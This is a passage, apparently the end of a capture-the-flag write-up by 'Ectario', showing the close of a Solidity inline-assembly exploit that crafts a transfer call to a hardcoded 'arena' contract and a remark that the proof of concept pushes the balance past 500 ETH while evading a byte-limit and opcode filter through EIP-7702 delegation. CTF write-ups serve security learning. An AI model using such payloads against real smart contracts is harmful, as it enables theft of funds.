 ```solidity
            // keepin' only 4bytes: 0xa9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b -> 0xa9059cbb00000000000000000000000000000000000000000000000000000000
            mstore(
                0x00,
                0xa9059cbb00000000000000000000000000000000000000000000000000000000
            ) 
            mstore(0x24, 1)
            pop(call(
                gas(),
                0xb4f257A619B2cc621326d51682a88d00bd5eBB07, // arena
                0,
                0x00,
                0x44,
                0x00,
                0x00
            ))
        }
    }
}
```

The PoC test suite shows the balance rocketing past 500 ETH and the flag flipping, all while staying inside the jail’s byte-limit and opcode filter thanks to the 7702 delegation.  

Ectario